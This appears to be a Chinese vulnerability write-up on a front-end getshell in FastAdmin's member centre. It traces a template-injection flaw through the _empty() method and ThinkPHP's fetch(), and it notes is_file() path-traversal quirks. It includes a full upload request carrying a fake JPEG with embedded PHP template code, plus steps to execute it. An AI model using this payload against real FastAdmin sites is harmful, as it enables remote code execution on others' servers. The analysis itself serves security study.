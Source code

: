 FastAdmin 会员中心前台getshell
==============================

一、漏洞简介
------------

### 利用条件

`/application/config.php` 文件中：

    //是否开启前台会员中心
    'usercenter'            => true,

即需要开启会员中心功能

二、漏洞影响
------------

V1.0.0.20200506\_beta

三、复现过程
------------

### 漏洞分析

`/application/index/User.php`文件

第58-67行：

     public function _empty($name)
        {    
            $data = Hook::listen("user_request_empty", $name);
                foreach ($data as $index => $datum) {
                $this->view->assign($datum);
                }
        return $this->view->fetch($name);
    }
    user_request_empty`为开发者预留的钩子可以忽视不看，主要看` return $this->view->fetch($name);

此方法中的`$name`参数可控，并且将`$name`的值传入到了`fecth()`函数中。

`fetch()`为thinkphp的解析模板函数，其返回模板文件渲染后的内容

`fetch()`函数的关键内容如下：

      public function fetch($template, $data = [], $config = [])
        {
            if ('' == pathinfo($template, PATHINFO_EXTENSION)) {
                // 获取模板文件名
                $template = $this->parseTemplate($template);
            }
            // 模板不存在 抛出异常
            if (!is_file($template)) {
                throw new TemplateNotFoundException('template not exists:' . $template, $template);
            }
            // 记录视图信息
            App::$debug && Log::record('[ VIEW ] ' . $template . ' [ ' . var_export(array_keys($data), true) . ' ]', 'info');
            $this->template->fetch($template, $data, $config);
        }

继续调用栈可以看下其实这个fetch()函数调用的是内置模板引擎的fetch方法，
这个方法实际上就是将要输出的页面内容赋值给一个变量，为了方便，thinkphp在对模板渲染的过程中，添加了php标签功能，使得其可以解析php代码。

总之一句话，这个漏洞其实就是由于对传入变量过滤不严导致的模板引擎注入漏洞，只要控制了传入模板的文件，就可以利用模板本身的渲染功能，实现包含漏洞getshell

另外需要注意的是，当验证传入的模板是否是文件时，使用的`is_file()`函数，这个函数在Linux下和windows下的判断会有所不同，具体如下：

1、在linux下利用`is_file()`来判断类似于`/****/../../../../etc/passwd`文件时，如果`****`是不存在的目录，则会返回false，在windows下
，这个目录存在与否，均返回true，如下图所示：

![1.png](./resource/FastAdmin会员中心前台getshell/media/rId26.png)

![2.png](./resource/FastAdmin会员中心前台getshell/media/rId27.png)

2、在linux下，`is_file()`函数判可用于判断符号链接

3、在linux下，`is_file`函数会受到权限的影响，当前用户权限不足或父目录没有设置+x权限时，`is_file()`会返回false

4、windows系统里面`/`和`\` 都可以使用，但是在linux下只能使用`/`
来分隔路径，因此这会导致`is_file()`在不同系统下的返回结果不一致

![3.png](./resource/FastAdmin会员中心前台getshell/media/rId28.png)

![4.png](./resource/FastAdmin会员中心前台getshell/media/rId29.png)

5、`is_file()`判断文件时，如果文件大小超过2\^32时，会判断失败

### 漏洞复现

通过前文可知，这个漏洞的利用点在`_empty()`函数，需要注意的是，在官方文档中通常`_empty()`方法是用来判断一个方法是否存在，如果不存在，则进入该函数。而这里是开发者自定义的方法，因此直接传入`_empty`方法，调用name参数即可。

利用过程如下：

在前台的会员中心，个人资料处，上传修改头像：

![5.png](./resource/FastAdmin会员中心前台getshell/media/rId31.png)

抓包后修改图片数据（满足图片头格式即可）：

    POST /index/ajax/upload HTTP/1.1
    Host:www.0-sec.org:8088
    Content-Length: 596
    Origin: http://122.114.216.233
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJ60Dcmopu4qDLQwq
    Accept: */*
    Referer: http://103.40.247.24/index/user/profile.html
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: Hm_lvt_f8d0a8c400404989e195270b0bbf060a=1600651554; PHPSESSID=e42uhkmhirv29cpd82qbubigd7; uid=3; token=251be91c-040b-4231-b955-76c3ecfaf4f4; Hm_lpvt_f8d0a8c400404989e195270b0bbf060a=1600651809
    Connection: close
    
    ------WebKitFormBoundaryJ60Dcmopu4qDLQwq
    Content-Disposition: form-data; name="name"
    
    400x400a0a0.jpg
    ------WebKitFormBoundaryJ60Dcmopu4qDLQwq
    Content-Disposition: form-data; name="file"; filename="400x400a0a0.jpg"
    Content-Type: image/jpeg
    
    ÿØÿà8Photoshop 3.08BIM8BIM%"
    {php}phpinfo();{/php}
    ------WebKitFormBoundaryJ60Dcmopu4qDLQwq--

![6.png](./resource/FastAdmin会员中心前台getshell/media/rId32.png)

记录下路径后，成功getshell

![7.png](./resource/FastAdmin会员中心前台getshell/media/rId33.png)

在Linux下，通过这种方法会失效，因为在`/public`路径下不存在`user`目录，由前文中的知识点可以知道，当不存在这个目录的时候，无论怎么跳转目录，`is_file()`函数返回的结果始终未false，因此无法利用该漏洞，如下图所示：

![8.png](./resource/FastAdmin会员中心前台getshell/media/rId34.png)

当我们在`/public`目录下创建文件夹`/user`，在利用，即可成功：

![9.png](./resource/FastAdmin会员中心前台getshell/media/rId35.png)

参考链接
--------

> https://www.cnpanda.net/codeaudit/777.html
